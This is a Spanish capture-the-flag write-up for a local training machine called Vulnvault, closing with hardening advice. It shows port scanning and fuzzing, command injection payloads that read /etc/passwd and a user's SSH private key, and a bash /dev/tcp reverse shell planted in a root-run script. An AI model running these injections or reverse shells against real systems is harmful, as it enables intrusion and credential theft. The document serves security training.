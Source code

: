 # **Máquina: Vulnvault**

### **Dificultad:** Fácil

### 📝 **Descripción:**

**Vulnvault** es una máquina diseñada para poner a prueba nuestras habilidades básicas de pentesting web. En ella, exploraremos técnicas de fuzzing, bypass de validaciones de subida de archivos, ejecución de comandos remotos e inyecciones maliciosas dentro de una funcionalidad aparentemente inofensiva. Esta máquina es ideal para practicar análisis de servicios y escalada de privilegios en entornos tipo CTF.

### 🎯 **Objetivo:**

Obtener acceso root explotando vulnerabilidades presentes en el sitio web, ganando acceso como un usuario válido mediante SSH, y posteriormente escalando privilegios mediante el abuso de procesos ejecutados automáticamente como root.

![Logo](Imágenes/2025-05-17_23-29.png)

---

## 🖥️ **Despliegue de la máquina**

Descargamos el archivo `vulnvault.zip`, lo descomprimimos y desplegamos la máquina usando el script `auto_deploy.sh` proporcionado. Esto inicia la máquina vulnerable dentro de un contenedor Docker:

```bash
unzip vulnvault.zip
sudo bash auto_deploy.sh vulnvault.tar
```

![Despliegue](Imágenes/Capturas.png)

---

## 📡 **Comprobación de conectividad**

Verificamos la conexión con un simple `ping` a la IP asignada (172.17.0.3):

```bash
ping -c1 172.17.0.3
```

![Ping](Imágenes/Capturas_1.png)

---

## 🔍 **Escaneo de puertos**

Ejecutamos un escaneo de puertos completo con `nmap`:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
```

Puertos descubiertos:

* **22/tcp** – SSH
* **80/tcp** – HTTP

![Puertos](Imágenes/Capturas_2.png)

Posteriormente, realizamos un escaneo más detallado sobre los puertos encontrados:

```bash
nmap -sCV -p22,80 172.17.0.3 -oN target.txt
```

![Servicios](Imágenes/Capturas_3.png)

---

Entramos al servicio web alojado en [http://172.17.0.3/](http://172.17.0.3/), que es una página para generar reportes y permite subir archivos. Intentamos inicialmente ejecutar una reverse shell en PHP.

![Pagina](Imágenes/Capturas_4.png)

Realizamos fuzzing con Gobuster para descubrir rutas y archivos ocultos:

```bash
gobuster dir -u http://172.17.0.3/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x php,html,txt
```

Rutas interesantes encontradas:

* `/index.php`
* `/upload.html`
* `/upload.php`
* `/old`

![Fuzzing](Imágenes/Capturas_5.png)

La ruta más llamativa fue `http://172.17.0.3/upload.php`, ya que muestra los archivos subidos. Aquí intentamos ejecutar nuestra reverse shell PHP.

![Ejecutar](Imágenes/Capturas_6.png)

Descargamos la shell desde [pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell), la copiamos en un archivo `nano revshell.php`, y la subimos a través del panel.

![php](Imágenes/Capturas_7.png)

---

![subida](Imágenes/Capturas_8.png)

Aunque el archivo se sube exitosamente, no se ejecuta al hacer clic, por lo que intentamos otra vía.

En `index.php`, al generar un reporte, se muestra la ruta del archivo generado, como `/var/www/html/reportes/reporte_1747547683.txt`, junto con una advertencia sobre comandos maliciosos. Esto sugiere una posible vulnerabilidad de inyección de comandos.

![Inyeccion](Imágenes/Capturas_9.png)

Realizamos pruebas ingresando comandos en el campo de **fecha** usando el separador `;`. Por ejemplo:

```bash
;cat /etc/passwd
```

Con esto logramos listar los usuarios del sistema y descubrimos la existencia del usuario `samara`.

![Usuarios](Imágenes/Capturas_10.png)

Luego investigamos el directorio personal con:

```bash
;ls -la /home/samara
```

Encontramos archivos protegidos, pero accedimos a su clave SSH privada con:

```bash
;cat /home/samara/.ssh/id_rsa
```

Copiamos la clave a nuestra máquina, guardándola como `id_rsa`.

![Usuarios](Imágenes/Capturas_11.png)

Cambiamos permisos y establecimos conexión SSH como el usuario `samara`:

```bash
chmod 700 id_rsa
ssh -i id_rsa samara@172.17.0.3
```

![Usuarios](Imágenes/Capturas_13.png)

---

### 🔐 Escalada de privilegios

Como el usuario `samara`, intentamos lo habitual:

```bash
sudo -l
find / -perm -4000 2>/dev/null
```

Pero no obtuvimos resultados útiles. Entonces ejecutamos `ps aux` para revisar procesos en ejecución, y descubrimos uno muy interesante:

```bash
/bin/sh -c service ssh start && service apache2 start && while true; do /bin/bash /usr/local/bin/echo.sh; done
```

Esto indica que el archivo `/usr/local/bin/echo.sh` se ejecuta en bucle **como root**, lo que nos da una vía para escalada.

Accedimos al directorio y listamos el contenido:

```bash
cd /usr/local/bin
ls
```

Intentamos editar el archivo con `nano`, pero falló por la variable `TERM`. Solucionamos el error así:

```bash
export TERM=xterm
nano echo.sh
```

Insertamos una reverse shell en el archivo:

```bash
#!/bin/bash
bash -i >& /dev/tcp/172.17.0.1/443 0>&1
```

![Usuarios](Imágenes/Capturas_14.png)

Guardamos y salimos. En nuestra máquina atacante ejecutamos:

```bash
sudo nc -lvnp 443
```

Y tras unos segundos, obtuvimos una shell como `root`.

![Usuarios](Imágenes/Capturas_15.png)

---

## ✅ **Conclusión**

La máquina **Vulnvault** nos permitió practicar diferentes vectores de ataque, desde el reconocimiento y explotación de servicios web hasta el uso de técnicas de inyección de comandos. Logramos obtener acceso como el usuario `samara` a través de una clave SSH extraída mediante inyección, y finalmente escalamos privilegios explotando un script ejecutado automáticamente como root. Esta máquina refuerza conceptos clave del pentesting y demuestra la importancia de validar correctamente entradas del usuario y proteger scripts con permisos elevados.

---

## 🔐 **Recomendaciones**

* Nunca almacenes claves privadas sin protección en directorios accesibles.
* Valida y sanitiza todas las entradas del usuario, especialmente en formularios que interactúan con el sistema.
* Evita ejecutar scripts como root sin restricciones ni controles adecuados.
* Asegúrate de que las rutas de carga de archivos sean seguras y no permitan ejecución directa.

---
